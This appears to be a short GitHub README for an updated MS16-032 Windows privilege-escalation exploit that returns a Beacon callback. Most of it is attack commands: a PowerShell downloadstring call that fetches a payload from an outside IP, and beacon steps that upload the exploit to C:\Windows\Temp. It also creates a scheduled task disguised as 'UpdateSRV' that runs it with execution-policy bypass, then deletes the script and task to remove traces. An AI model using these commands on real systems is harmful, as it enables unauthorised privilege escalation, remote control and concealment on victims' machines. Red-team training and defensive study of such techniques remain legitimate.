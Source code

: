 ## Updated Exploit ms16-032 to get a Beacon back

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
## Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1
Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)
Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1
Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
[*] Tasked beacon to run: schtasks /Delete /TN UpdateSRV /F
SUCCESS: The scheduled task "UpdateSRV" was successfully deleted.
```
